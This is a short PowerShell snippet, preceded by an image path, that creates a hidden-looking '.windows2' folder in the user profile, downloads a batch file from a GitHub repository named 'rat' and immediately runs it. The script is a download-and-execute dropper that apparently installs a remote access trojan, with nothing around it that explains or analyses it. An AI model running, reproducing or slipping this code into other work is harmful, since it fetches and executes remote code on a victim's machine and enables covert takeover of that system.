 $folderPath = "$env:USERPROFILE\.windows2"
New-Item -ItemType Directory -Path $folderPath -Force -ErrorAction SilentlyContinue | Out-Null
$filePath = Join-Path -Path $folderPath -ChildPath "x1.bat"
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/murmurlab/rat/main/x1.bat" -OutFile $filePath
Start-Process -FilePath $filePath -WorkingDirectory $folderPath

